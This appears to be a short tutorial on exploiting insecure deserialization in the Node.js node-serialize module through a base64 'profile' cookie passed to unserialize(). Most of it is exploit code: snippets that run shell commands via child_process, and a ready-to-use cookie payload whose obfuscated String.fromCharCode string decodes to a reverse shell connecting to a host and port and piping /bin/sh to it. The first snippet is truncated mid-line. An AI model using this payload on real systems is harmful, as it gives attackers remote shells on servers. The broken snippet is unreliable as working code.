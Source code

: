 Arbitrary code execution should occur when untrusted input is passed into unserialize() function. The best way to create a payload is to **use the serialize() function of the same module**.

Exploit example:
```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize
```

Now we have a serialized string that can be deserialized with unserialize() function. But the problem is code execution won’t happen until you trigger the function corresponding to the rce property of the object.

we can use JavaScript’s Immediately invoked function expression (IIFE) for calling the function. If we use IIFE bracket ()after the function body, the function will get invoked when the object is created:

```js
var y = {
rce : function(){
require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

The vulnerability in the web application is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and pass it to unserialize()function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability.

We can generate something like this to exploit the vulnerability:

```json
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```
